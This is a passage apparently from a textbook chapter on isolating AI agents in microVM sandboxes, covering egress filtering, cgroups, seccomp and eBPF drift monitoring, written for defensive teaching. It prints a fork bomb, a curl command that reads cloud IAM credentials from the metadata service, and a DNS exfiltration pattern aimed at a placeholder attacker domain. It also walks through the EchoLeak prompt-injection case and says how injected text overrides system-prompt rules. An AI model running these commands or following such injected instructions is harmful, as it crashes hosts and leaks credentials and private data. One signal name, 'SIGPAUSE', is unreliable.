| **Perimeter: Cloud Host Protection**    | Host `iptables` / eBPF filter on link-local subnet | HTTP (Port 80 to `169.254.169.254`) | Drop packets destined for AWS/GCP/Azure Instance Metadata Service; enforce IMDSv2 hop limit 1 | Cloud IAM instance credential harvesting, metadata enumeration, SSRF privilege escalation | $0\,\mu\text{s}$ (wire rate)               |

: **Multi-Layer Zero-Trust Network Egress Defense Architecture**: Defense-in-depth inspection layers, enforcement primitives, filtering criteria, and mitigated threat classes. {#tbl-vol3-network-egress-defense tbl-colwidths="[16,16,14,24,20,10]"}

::: {#ws-virtualization-echoleak .callout-war-story title="EchoLeak in Microsoft 365 Copilot (CVE-2025-32711)"}

**Context:** In June 2025, security researchers disclosed EchoLeak (CVE-2025-32711), a critical prompt injection and data exfiltration vulnerability in Microsoft 365 Copilot operating across enterprise email, SharePoint documents, and Teams chats [@aimlabs2025echoleak; @msrc2025echoleak].

**Mechanism:** An attacker sent an external email with an indirect prompt injection payload. When the user prompted Copilot to summarize recent emails, Copilot ingested the payload, which instructed it to emit a reference-style Markdown image pointing to an allowlisted Microsoft Teams preview endpoint (`*.teams.microsoft.com`). The Teams preview service accepted arbitrary target URLs as query parameters and fetched server-side previews, turning an allowlisted internal host into an open URL preview reflection proxy that transmitted the user's private data to an external server.

**Impact:** Confidential corporate communications and session tokens were silently exfiltrated through standard user client rendering, completely bypassing basic domain egress allowlists.

**Response:** Microsoft patched the Teams URL preview handler to restrict server-side fetch redirections, deployed strict Content Security Policy (CSP) headers in the client to suppress unauthorized markdown image rendering, and integrated dynamic taint-tracking to sanitize inputs originating from untrusted email payloads.

**Systems Lesson:** A domain allowlist authorizes *destinations*, not *flows*. Any allowlisted host that acts as an open proxy or URL preview fetcher becomes an exfiltration relay straight through the security boundary. Egress security must be combined with Information Flow Control: the moment untrusted external text enters context, the capability to emit rendered web hyperlinks must be attenuated automatically.

:::

### Hermetic air-gapping and synthetic internet proxies

For high-security enterprise environments and large-scale synthetic data generation pipelines (@sec-vol3-data-flywheel), agent sandboxes operate in a completely **Air-Gapped Mode**:

- The virtual TAP device (`tap0`) is brought administratively down (`ip link set dev tap0 down`). Outbound network routing is completely disabled.
- Essential external dependencies are pre-mirrored onto local host storage:
  - Internal PyPI package cache (backed by `devpi` or `bandersnatch`).
  - Internal npm registry mirror (backed by `verdaccio`).
  - Read-only Git mirror of required repositories.
- When an agent interacts with web services, the runtime routes HTTP requests to a synthetic mock internet proxy that replays pre-recorded HTTP archives (WARC / HAR files), eliminating live internet dependency while providing deterministic, repeatable tool returns.

::: {#chk-vol3-09-network-egress-tunneling .callout-checkpoint title="Network egress perimeters and covert tunneling"}

Before examining Linux cgroups v2, seccomp filters, and host defense envelopes, verify your understanding of network containment:

- [ ] **DNS covert exfiltration**: calculate why a Shannon entropy threshold of $H(X) > 4.2\text{ bits/char}$ separates Base64 exfiltration payloads from natural domain names.
- [ ] **Instance metadata drop**: why must the link-local address `169.254.169.254` be dropped at wire rate via kernel eBPF rather than relying on application-level HTTP proxies?
- [ ] **Open URL preview relays**: analyze the EchoLeak vulnerability (CVE-2025-32711) and explain why destination allowlists alone fail when an allowlisted domain acts as a reflection proxy.

:::

Sealing the network perimeter and enforcing hardware virtualization ensures that an untrusted agent can neither compromise the host kernel nor exfiltrate sensitive data over external networks. Yet spatial isolation and network filtering do not bound the physical hardware resources consumed by the sandbox itself. An adversary or a hallucinating model confined inside a completely air-gapped microVM can still spawn recursive fork bombs, allocate unconstrained heap memory to trigger host OOM panics, or saturate storage queue depths with unbuffered disk writes. To prevent a rogue sandbox from degrading adjacent tenants and crashing the physical host node, systems architects must establish a final layer of defense: kernel-level resource bounding and real-time telemetry.

## Kernel-Level Sandbox Resource Limiting {#sec-vol3-virtualization-cgroups}

Consider an autonomous agent executing a complex recursive script. If the agent generates an algorithmic fork bomb:

```bash
# Classic POSIX Fork Bomb
:(){ :|:& };:
```

the script defines a function that calls itself twice and backgrounds both instances. Within 380 milliseconds, the process table spawns over 65,000 child processes. Without hard operating system limits, this exhausts the Linux kernel process identifier table (`kernel.pid_max`), preventing the host from spawning any new processes. SSH administrative sessions terminate, Prometheus node-exporter health checks fail, and the entire multi-tenant server freezes, requiring a physical power-cycle.

Preventing resource exhaustion and monitoring rogue agent behavior requires **Linux Control Groups (cgroups v2)**, **seccomp-BPF system call filtering**, and **real-time eBPF sandbox telemetry**.

### Linux control groups v2 (cgroups v2)

Unlike cgroups v1, which permitted divergent, uncoordinated controller hierarchies, `cgroups v2` implements a single, unified process tree hierarchy [@agache2020firecracker]. The microVM VMM process and its child threads are assigned to a dedicated cgroup slice (`/sys/fs/cgroup/agent-sandboxes/vm-<uuid>/`):

```bash
# Production cgroup v2 sandbox resource limits
mkdir -p /sys/fs/cgroup/agent-sandboxes/vm-42
echo "+cpu +memory +pids +io" > /sys/fs/cgroup/agent-sandboxes/cgroup.subtree_control

# 1. CPU Quota: 2 dedicated vCPUs (200ms quota per 100ms period)
echo "200000 100000" > /sys/fs/cgroup/agent-sandboxes/vm-42/cpu.max

# 2. Memory Cap: 1 GB hard limit, 800 MB throttling watermark
echo "838860800" > /sys/fs/cgroup/agent-sandboxes/vm-42/memory.high
echo "1073741824" > /sys/fs/cgroup/agent-sandboxes/vm-42/memory.max
echo "1" > /sys/fs/cgroup/agent-sandboxes/vm-42/memory.oom.group

# 3. Process Table Bounding: Max 256 PIDs
echo "256" > /sys/fs/cgroup/agent-sandboxes/vm-42/pids.max

# 4. Storage IOPS and Bandwidth Throttling
echo "8:0 rbps=104857600 wbps=52428800 riops=5000 wiops=2000" > \
     /sys/fs/cgroup/agent-sandboxes/vm-42/io.max
```

The controllers enforce deterministic containment:

1. **CPU Bandwidth (`cpu.max`):** Configures the Completely Fair Scheduler (CFS) quota and period ($\text{CPU Quota Ratio} = \text{quota} / \text{period} = 200{,}000\,\mu\text{s} / 100{,}000\,\mu\text{s} = 2.0\text{ vCPUs}$). If an agent enters an infinite compilation loop, the host kernel throttles the sandbox when it exhausts its 200 ms budget within the 100 ms window, preventing CPU starvation of co-tenant workloads.
2. **Memory Ceiling (`memory.max` and `memory.oom.group`):** When memory allocation exceeds `memory.high` ($800\text{ MB}$), the kernel throttles page allocations. If memory reaches the hard ceiling of `memory.max` ($1\text{ GB}$), the kernel invokes the OOM killer. Crucially, setting `memory.oom.group = 1` guarantees that the kernel terminates the entire sandbox process tree atomically, rather than killing a random helper process and leaving zombie processes running.
3. **PID Capping (`pids.max`):** Restricts the maximum number of concurrent threads and processes to 256. If a fork bomb executes, the 257th `fork()` or `clone()` call immediately fails with `EAGAIN` (Resource temporarily unavailable), neutralizing the denial-of-service attack in microseconds.
4. **I/O Throttling (`io.max`):** Caps read bandwidth to $100\text{ MB/s}$ and write bandwidth to $50\text{ MB/s}$, preventing rogue agent loops from thrashing the host NVMe queue depth.

### Seccomp-BPF system call filtering

While cgroups bound quantitative resource consumption, **seccomp-BPF (Secure Computing with Berkeley Packet Filters)** restricts qualitative capability. Seccomp attaches a BPF program directly to the process control block via `prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, ...)`. Every system call issued by the process is evaluated against the BPF bytecode before the kernel executes it:

```c
// Simplified seccomp-bpf filter for Firecracker microVM process
struct sock_filter filter[] = {
    // Validate architecture: x86_64
    BPF_STMT(BPF_LD | BPF_W | BPF_ABS, offsetof(struct seccomp_data, arch)),
    BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, AUDIT_ARCH_X86_64, 1, 0),
    BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_KILL_PROCESS),

    // Load system call number
    BPF_STMT(BPF_LD | BPF_W | BPF_ABS, offsetof(struct seccomp_data, nr)),

    // Allow essential runtime syscalls: read, write, epoll_wait, ioctl
    BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, __NR_read, 5, 0),
    BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, __NR_write, 4, 0),
    BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, __NR_epoll_wait, 3, 0),
    BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, __NR_futex, 2, 0),
    BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, __NR_ioctl, 1, 0),

    // Default action: Kill process immediately on unauthorized syscall
    BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_KILL_PROCESS),
    BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW),
};
```

Under this filter, the hypervisor process can only issue roughly 20 allowable system calls. If an attacker exploits a memory vulnerability in Firecracker and attempts to invoke `execve`, `fork`, `mount`, `ptrace`, or `bpf`, the Linux kernel immediately executes `SECCOMP_RET_KILL_PROCESS`, halting execution in zero cycles.

### Real-time ebpf sandbox telemetry

To detect behavioral drift and early exploitation attempts before damage occurs, agent runtimes deploy real-time **eBPF Kernel Probes** attached to kernel tracepoints:

- `sched:sched_process_exec`: Tracks binary executions inside the sandbox.
- `syscalls:sys_enter_connect`: Monitors all socket connection requests.
- `syscalls:sys_enter_openat`: Audits sensitive filesystem file access.

The runtime constructs an empirical system call frequency vector $\mathbf{v}_{\text{obs}} \in \mathbb{R}^D$ over sliding time windows $\Delta t$. This vector is compared against a baseline profile $\mathbf{v}_{\text{baseline}}$ established during normal tool execution (e.g., standard pytest runs) using cosine distance: $D_{\text{drift}}(\mathbf{v}_{\text{obs}}, \mathbf{v}_{\text{baseline}}) = 1 - (\mathbf{v}_{\text{obs}} \cdot \mathbf{v}_{\text{baseline}}) / (\|\mathbf{v}_{\text{obs}}\|_2 \|\mathbf{v}_{\text{baseline}}\|_2)$. Cosine distance is preferred over complex neural anomaly detectors for three systems reasons:

1. **Low Dimension and Fixed Footprint:** Although the Linux kernel exposes over 450 system calls, typical software engineering tasks (such as compiling code or executing unit tests) exercise a stable subset of only $D \approx 50$ distinct syscalls. The vector $\mathbf{v} \in \mathbb{R}^{50}$ is an array of 64-bit integer counters updated by an eBPF per-CPU array map at line rate ($< 15\text{ ns}$ per event).
2. **Sub-Microsecond Evaluation:** Over a sliding window of $\Delta t = 1.0\text{ s}$, computing the inner product and $L_2$ norms requires $2D = 100$ floating-point operations. On modern single instruction, multiple data (SIMD) vector hardware (such as AVX-512), this evaluates in under $50\text{ nanoseconds}$, consuming zero measurable host CPU bandwidth.
3. **Physical Profile Shifts:** During benign execution, $\mathbf{v}_{\text{baseline}}$ is heavily concentrated in filesystem I/O and memory management (`read`, `write`, `fstat`, `mmap`, `futex`). When an adversary injects a shell payload, the execution profile shifts abruptly to reconnaissance and network calls (`connect`, `socket`, `openat` on `/etc`, `execve`). This swings the vector angle away from baseline: the dot product collapses, driving $D_{\text{drift}} > 0.45$.

If $D_{\text{drift}}$ breaches the threshold, the eBPF telemetry daemon emits an out-of-band signal directly to the Agent Control Block supervisor (@sec-vol3-processor), triggering an immediate execution trap (`SIGPAUSE` or `SIGKILL`), terminating the trajectory before data exfiltration can occur.

@Tbl-vol3-cgroup-seccomp-telemetry synthesizes the host containment and telemetry matrix.

| Enforcement Primitive       | Kernel Subsystem     | Configuration Parameter / Hook            | Enforcement Action                   | Mitigated Threat Mode                          |
|:----------------------------|:---------------------|:------------------------------------------|:-------------------------------------|:-----------------------------------------------|
| **CPU Quota Bounding**      | `cgroups v2` (CFS)   | `cpu.max = 200000 100000`                 | Hard CPU throttling                  | Infinite compilation loops, crypto-mining      |
| **Memory Group Ceiling**    | `cgroups v2` (mm)    | `memory.max` + `memory.oom.group=1`       | Atomic process group SIGKILL         | Heap memory bloat, host OOM thrashing          |
| **PID Table Bounding**      | `cgroups v2` (pids)  | `pids.max = 256`                          | Reject `clone()` with `EAGAIN`       | Algorithmic fork bombs, process exhaustion     |
| **I/O Rate Limiting**       | `cgroups v2` (blkio) | `io.max = rbps / wbps`                    | Throttled disk request queues        | NVMe drive saturation, co-tenant starvation    |
| **Syscall Whitelisting**    | `seccomp-bpf`        | `SECCOMP_MODE_FILTER`                     | Terminate process with `SIGSYS`      | Hypervisor escape via unallowed host syscalls  |
| **Process Execution Trace** | eBPF (`tracepoint`)  | `sched:sched_process_exec`                | Structured event log emission        | Unauthorized shell spawning, backdoor binaries |
| **Socket Connection Audit** | eBPF (`tracepoint`)  | `syscalls:sys_enter_connect`              | Metric recording / anomaly trap      | Network reconnaissance, reverse shell probing  |
| **Behavioral Drift Filter** | Telemetry Daemon     | Cosine distance $D_{\text{drift}} > 0.45$ | Dynamic execution pause (`SIGPAUSE`) | Anomaly detection for zero-day exploitation    |

: **Host Containment and Telemetry Matrix**: Control group parameters, seccomp actions, and eBPF tracepoints governing autonomous agent sandboxes. {#tbl-vol3-cgroup-seccomp-telemetry tbl-colwidths="[18,16,22,22,22]"}

Combining cgroup v2 resource envelopes, seccomp-BPF system call whitelists, and sub-microsecond eBPF behavioral telemetry completes the multi-tiered defense-in-depth architecture. When hardware microVMs, ephemeral CoW storage, zero-trust network egress filtering, and host resource bounds operate in concert, the host infrastructure remains mathematically resilient against arbitrary code execution. Yet in production environments, systems engineers routinely compromise this security posture not through hardware defects, but by adopting intuitive architectural shortcuts. To build durable sandboxing platforms, we must identify and dismantle these common fallacies.

## Fallacies and Pitfalls {#sec-vol3-virtualization-fallacies}

In the computer systems tradition established by John Hennessy and David Patterson [@hennessy2011computer], progress requires identifying and dismantling common architectural misconceptions that lead to fragile, vulnerable designs. In autonomous machine learning systems, the rapid transition from passive inference to stateful execution has produced dangerous assumptions regarding execution security.

::: {.fallacy-pitfall}

**Fallacy:** *System prompts and constitutional guardrails provide a reliable isolation boundary against malicious code execution.*

Engineering teams frequently assume that instructing a frontier model to "Never execute destructive commands, access credentials, or connect to unknown servers" in the system prompt provides an adequate security barrier.

This assumption ignores the architectural reality of transformer self-attention (@sec-vol3-virtualization-threat-models). In a transformer, system instructions ($X_{\text{sys}}$) and untrusted environment data ($X_{\text{env}}$) share the identical vector embedding space $\mathbb{R}^{d_{\text{model}}}$. Universal adversarial suffixes optimized via greedy coordinate gradient descent [@zou2023], delimiter collisions, Base64 encodings, and context dilution reliably override supervisory instructions. Relying on stochastic model weights to police its own actions violates Saltzer and Schroeder's fundamental systems principle of **Complete Mediation** [@saltzer1975]. Security guarantees must be enforced externally by deterministic hardware-assisted virtualization and kernel isolation primitives.

:::

::: {.fallacy-pitfall}

**Pitfall:** *Permitting access to the cloud Instance Metadata Service (IMDS) from agent execution environments.*

Deploying agent execution sandboxes on public cloud infrastructure (AWS, GCP, Azure) without blocking the link-local metadata address (`169.254.169.254`) allows an injected agent to compromise host infrastructure within seconds.

An injected agent executes:

```bash
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

extracting temporary administrative STS session tokens attached to the host's IAM role. With these credentials, an adversary can access internal S3 buckets, query private databases, or launch new cloud instances. Runtimes must permanently block `169.254.169.254` via eBPF packet filters at the virtual network boundary and enforce IMDSv2 with a maximum network hop limit of 1, preventing forwarded requests from traversing the guest network stack.

:::

::: {.fallacy-pitfall}

**Fallacy:** *Standard Docker containers provide sufficient multi-tenant isolation for untrusted agent-generated code.*

Because Docker containers provide process separation via Linux namespaces and cgroups, platform engineers frequently deploy them as sandboxes for executing arbitrary agent-synthesized code.

Containers share the monolithic host Linux kernel across all tenants. The containerized process exposes over 450 host system calls directly to the untrusted code. Historical kernel vulnerabilities—such as Dirty COW (CVE-2016-5195), Dirty Pipe (CVE-2022-0847), and recent unpatched memory race conditions in `io_uring`—permit immediate, uncontained privilege escalation to host root. For executing arbitrary code synthesized by non-deterministic models, hardware-assisted microVMs (such as Firecracker) with independent guest kernels and hardware Second Level Address Translation (EPT) are mandatory.

:::

::: {.fallacy-pitfall}

**Pitfall:** *Leaving outbound DNS resolution uninspected and unmonitored on port 53.*

Platform architects frequently construct strict network firewalls that restrict outbound HTTP/S traffic to authorized package domains, but leave UDP/TCP port 53 open to allow DNS resolution.

Attackers routinely bypass perimeter HTTP proxies by using **DNS Covert Tunneling**: Base64-encoding sensitive environment variables and source files into subdomain labels of queries dispatched to an attacker-controlled nameserver (`<base64_secret>.attacker-c2.org`). Public recursive resolvers propagate these queries across the internet, exfiltrating data despite strict HTTP blocks. Egress filtering must incorporate DNS Shannon entropy thresholds ($H(X) \le 4.2$), label length limits, and internal recursive caching sinkholes.

:::

::: {.fallacy-pitfall}

**Fallacy:** *Userspace kernels (gVisor) provide zero-cost isolation for developer coding agents.*

Userspace kernels such as gVisor offer compelling security by intercepting system calls in a userspace Go process, reducing the host kernel attack surface without full hypervisor virtualization.

While effective for network-bound microservices, gVisor's userspace VFS implementation introduces severe steady-state performance penalties on file-intensive software development workloads. Tasks such as `git status`, `git checkout`, `npm install`, and C++ compilation issue hundreds of thousands of filesystem metadata system calls (`stat`, `openat`, `fstat`). Intercepting and emulating these calls in userspace imposes a **15 to 35 percent wall-clock latency tax**, significantly exceeding the one-time cold-boot overhead of a hardware-assisted microVM.

:::

::: {.fallacy-pitfall}

**Pitfall:** *Unbounded thread and process creation in ephemeral sandboxes.*

Runtimes that restrict sandbox memory and CPU bandwidth but neglect process table limits remain vulnerable to trivial denial-of-service attacks.

A simple recursive shell fork bomb (`:(){ :|:& };:`) or a buggy Python multiprocessing script can spawn tens of thousands of processes in hundreds of milliseconds. When the host Linux kernel reaches `kernel.pid_max`, it can no longer allocate process descriptors. The entire host operating system freezes, terminating administrative SSH connections and taking down all concurrent agent sessions. Runtimes must strictly enforce `pids.max` (for example, `pids.max = 256`) via `cgroups v2` for every sandbox instance.

:::

Dismantling these architectural misconceptions reveals a unifying systems principle: execution security cannot be retrofitted through probabilistic prompt engineering or lightweight process abstractions. In an autonomous system where untrusted environmental data directly modulates code synthesis, the execution sandbox is not an optional runtime wrapper—it is the foundational boundary that protects physical compute, corporate credentials, and multi-tenant infrastructure. Understanding these pitfalls allows us to synthesize the formal sandboxing contract that governs production agent architectures.

## Summary {#sec-vol3-virtualization-summary}

Autonomous agentic systems dismantle the classical request-response serving boundary: the entity generating privileged system operations is a non-deterministic neural network lacking hardware memory protections. Because self-attention projects supervisory instructions and untrusted environmental data into an identical continuous vector space, prompt injection represents a permanent $W \oplus X$ architectural violation. Reliable execution containment cannot be achieved through prompt guardrails or neural classifiers; it must be enforced externally by deterministic virtualization substrates. By co-designing hardware-assisted microVMs (AWS Firecracker), in-memory Copy-on-Write filesystem overlays (OverlayFS), multi-layer network egress mediation, and Linux cgroups v2 resource envelopes, systems architects construct an execution environment where even a completely co-opted model policy remains strictly confined within a disposable, sub-millisecond sandbox.

::: {.callout-takeaways title="The virtualization and sandboxing contract"}
1. **The $W \oplus X$ Neural Violation:** Transformer architectures map all tokens symmetrically into a shared continuous embedding space $\mathbb{R}^{d_{\text{model}}}$, allowing untrusted data to modulate next-token generation distributions. Security boundaries must be enforced outside the model at the hypervisor and operating system level.
2. **The Isolation Spectrum:** Standard Linux containers are unsafe for untrusted code due to the shared 450+ host system call attack surface. Hardware-assisted microVMs (such as Firecracker) represent the production standard, providing hardware-enforced KVM hypervisor containment with sub-50 ms cold-boot times and minimal memory footprints ($\sim 5\text{ MB}$).
3. **The Per-Call Boot Budget:** To prevent cross-turn state contamination without degrading agent performance, per-call sandbox boot latency must satisfy $T_{\text{boot}} \le \frac{s \cdot t_{\text{prod}}}{1 - s}$. For interactive turns ($t_{\text{prod}} = 3.5\text{ s}$), microVMs easily meet the sub-180 ms budget, whereas legacy VMs (QEMU) overrun it by two orders of magnitude.
4. **Copy-on-Write Ephemeral Filesystems:** OverlayFS combines an immutable base rootfs shared across hundreds of VMs in host DRAM page cache with an ephemeral read-write layer on `tmpfs`. Workspace teardown unmounts and discards mutations in under 2 ms with zero residual state leakage.
5. **Multi-Layer Zero-Trust Egress Defense:** Preventing data exfiltration mandates kernel eBPF packet drops on raw IP destinations, line-rate blocking of cloud metadata endpoints (`169.254.169.254`), transparent TLS SNI allowlisting, outbound secret regex redaction, and DNS tunneling mitigation via Shannon entropy thresholds ($H(X) \le 4.2$).
:::

::: {.callout-chapter-connection title="From spatial isolation to asynchronous temporal control"}
_How do we maintain authoritative control over autonomous agents when containment alone cannot prevent runaway execution loops or irreversible real-world mutations?_

With the execution substrate deterministically secured through hardware microVMs, ephemeral Copy-on-Write storage, multi-layer network egress mediation, and cgroup v2 resource envelopes, we have established an actuation boundary where untrusted agent code cannot compromise host infrastructure or exfiltrate private assets. However, hardware sandboxing provides spatial isolation, not temporal execution control. When an agent operating inside an isolated sandbox enters an infinite loop, runs away with compute resources, or attempts a high-consequence mutation across the Reversibility Boundary, synchronous run-to-completion execution forfeits operational governance and pins expensive accelerator memory. In @sec-vol3-interrupts, we develop the out-of-band interrupt lines, preemptive signal dispatchers (`SIGINT`, `SIGPAUSE`, `SIGKILL`), policy enforcement points, and cryptographic capability escrow protocols required to govern long-horizon autonomous trajectories.
:::
